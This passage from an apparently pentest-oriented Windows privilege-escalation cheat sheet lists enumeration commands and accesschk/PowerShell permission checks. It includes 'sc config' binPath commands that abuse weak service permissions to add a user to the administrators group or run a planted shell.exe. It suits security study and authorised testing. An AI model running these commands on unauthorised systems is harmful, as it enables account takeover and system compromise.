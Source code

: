 ``` bash
tasklist /SVC
```

Active network connection

``` bash
netstat -ano
```

### Insecure Service Permissions

``` bash
sc qc Apache
```

``` bash
accesschk64.exe -uwcqv <user> *
```

==> `Service All Access` or `Service Change Config`

``` bash
sc config "service" binPath= "net localgroup administrators user /add"
```

``` bash
sc config "service" binPath= "c:\users\public\shell.exe"
```

[https://asfiyashaikh.medium.com/windows-privesc-weak-service-permission-b90f3bf4d44f](https://asfiyashaikh.medium.com/windows-privesc-weak-service-permission-b90f3bf4d44f)

[https://medium.com/@orhan_yildirim/windows-privilege-escalation-insecure-service-permissions-e4f33dbff219](https://medium.com/@orhan_yildirim/windows-privilege-escalation-insecure-service-permissions-e4f33dbff219)

## Readable/Writable

Using accesschk

``` bash
accesschk.exe -accepteula
```

``` bash
accesschk.exe -uws <user> "C:\Program Files"
```

Using powershell

``` bash
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

``` bash
Get-ChildItem "C:\Users\windows_10_1903_x64\Desktop" -Recurse | Get-ACL | findstr /C:"<user-name>"
```

### Leveraging Unquoted Paths
